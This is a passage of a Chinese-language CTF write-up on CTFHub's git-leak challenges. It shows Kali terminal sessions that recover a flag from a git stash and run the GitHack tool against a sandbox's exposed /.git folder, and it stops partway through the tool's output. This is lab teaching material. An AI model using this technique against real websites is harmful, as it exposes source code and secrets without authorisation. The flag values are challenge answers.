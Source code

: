 ```bash
        由我们删除： 292222691319712.txt

修改尚未加入提交（使用 "git add" 和/或 "git commit -a"）
贮藏条目被保留以备您再次需要。
                                                                            
┌──(tyd㉿Kali)-[~/ctf/GitHack/dist/challenge-053bfbe9e957dbd0.sandbox.ctfhub.com_10800]
└─$ cat 292222691319712.txt                                    
ctfhub{7784261fb20081dfe2abe94a}
```

提交`ctfhub{7784261fb20081dfe2abe94a}`即可。

------

##### Index

> 当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。请尝试使用BugScanTeam的GitHack完成本题

同理。

```bash
┌──(tyd㉿Kali)-[~/ctf/GitHack]
└─$ python2 GitHack.py http://challenge-6a100cccfc1f7ec2.sandbox.ctfhub.com:10800/.git

  ____ _ _   _   _            _                                             
 / ___(_) |_| | | | __ _  ___| | __                                         
| |  _| | __| |_| |/ _` |/ __| |/ /                                         
| |_| | | |_|  _  | (_| | (__|   <                                          
 \____|_|\__|_| |_|\__,_|\___|_|\_\{0.0.5}                                  
 A '.git' folder disclosure exploit.                                        
                                                                            
[*] Check Depends
[+] Check depends end
[*] Set Paths
[*] Target Url: http://challenge-6a100cccfc1f7ec2.sandbox.ctfhub.com:10800/.git/                                                                        
[*] Initialize Target
[*] Try to Clone straightly
[*] Clone
正克隆到 '/home/tyd/ctf/GitHack/dist/challenge-6a100cccfc1f7ec2.sandbox.ctfhub.com_10800'...
致命错误：仓库 'http://challenge-6a100cccfc1f7ec2.sandbox.ctfhub.com:10800/.git/' 未找到
[-] Clone Error
[*] Try to Clone with Directory Listing
[*] http://challenge-6a100cccfc1f7ec2.sandbox.ctfhub.com:10800/.git/ is not support Directory Listing                                                   
[-] [Skip][First Try] Target is not support Directory Listing
[*] Try to clone with Cache
[*] Initialize Git
[!] Initialize Git Error: 提示：使用 'master' 作为初始分支的名称。这个默认分支名称可能会更改。要在新仓库中                                              
提示：配置使用初始分支名，并消除这条警告，请执行：                          
提示：                                                                      
提示：  git config --global init.defaultBranch <名称>                       
提示：                                                                      
提示：除了 'master' 之外，通常选定的名字有 'main'、'trunk' 和 'development' 。                                                                          
提示：可以通过以下命令重命名刚创建的分支：                                  
提示：                                                                      
提示：  git branch -m <name>                                                
                                                                            
[*] Cache files
[*] packed-refs
[*] config
[*] HEAD
[*] COMMIT_EDITMSG
```